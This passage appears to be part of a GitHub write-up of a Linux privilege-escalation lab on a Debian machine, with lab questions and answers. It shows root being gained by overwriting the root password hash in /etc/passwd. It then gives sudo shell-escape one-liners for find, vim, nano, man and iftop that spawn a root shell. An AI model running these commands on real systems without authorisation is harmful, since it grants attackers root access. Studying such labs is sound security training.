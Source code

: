 - Replace the **x** inside `/etc/passwd` of the root user to the newly generated encrypted password:

```
user@debian:~$ nano /etc/passwd
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami
root
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

### Run the "id" command as the newroot user. What is the result?
- **Answer:** uid=0(root) gid=0(root) groups=0(root)

---

##  Sudo - Shell Escape Sequences

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

### How many programs is "user" allowed to run via sudo? 
- **Answer:** 11

### Using GTFO bins


```bash
$ sudo iftop
!/bin/sh

---
$ sudo find . -exec /bin/sh \; -quit

---
sudo nano
^R^X
reset; sh 1>&0 2>&0

---
sudo vim -c ':!/bin/sh'

---
sudo man man
!/bin/sh

```